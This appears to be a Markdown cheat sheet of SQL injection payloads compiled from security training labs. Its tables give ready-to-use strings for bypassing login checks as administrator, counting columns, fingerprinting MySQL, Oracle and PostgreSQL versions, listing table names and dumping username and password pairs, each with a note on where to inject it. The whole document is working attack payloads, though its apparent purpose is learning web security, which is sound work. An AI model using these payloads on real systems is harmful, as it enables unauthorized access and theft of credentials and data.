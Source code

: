# 📄 SQL Injection Payloads (Selected Topics)

This list contains practical SQL injection payloads categorized under 4 main topics from the labs.

---

## 🔐 Authentication and Logic Bypass

| Purpose | Payload | Usage |
|--------|---------|-------|
| Bypass login as administrator | `administrator'--` | Use in login form, leave password blank |
| Remove password check (general) | `' OR '1'='1'--` | Use in username/password/login fields |
| Force always-false condition (test) | `' AND 1=2--` | To test behavior when condition is false |

---

## 🧠 Database Information Enumeration

| Purpose | Payload | Usage |
|--------|---------|-------|
| Detect number of columns | `' ORDER BY 1--`, `' ORDER BY 2--`, etc. | Until error to find total columns |
| UNION with correct columns | `' UNION SELECT NULL,NULL--` | Adjust number of NULLs accordingly |
| Find DB version (MySQL) | `' UNION SELECT @@version,NULL--` | Displays version if visible |
| Find DB version (Oracle) | `' UNION SELECT banner,NULL FROM v$version--` | Oracle-specific version string |
| Find current DB name | `' UNION SELECT database(),NULL--` | For MySQL |

---

## 🔍 Retrieving Hidden Data

| Purpose | Payload | Usage |
|--------|---------|-------|
| Retrieve all products | `' OR 1=1--` | Inject into `category` or search parameter |
| Add logic to return hidden item | `' UNION SELECT NULL,NULL--` | After determining columns |
| Force incorrect filter bypass | `' OR category='Accessories'--` | Modify logic in `WHERE` clause |

---

## 🔗 UNION-based SQL Injection

| Purpose | Payload | Usage |
|--------|---------|-------|
| Find text column | `' UNION SELECT 'abc',NULL--` or `' UNION SELECT NULL,'abc'--` | Look for which column reflects text |
| Dump users | `' UNION SELECT username,password FROM users--` | If table/columns known |
| Merge user:pass in 1 column | `' UNION SELECT CONCAT(username,':',password),NULL FROM users--` | For single-column output |
| Combine values in PostgreSQL | `' UNION SELECT username || ':' || password,NULL FROM users--` | For PostgreSQL DBMS |
| Dump table names | `' UNION SELECT table_name,NULL FROM information_schema.tables--` | Useful for enumeration |

---



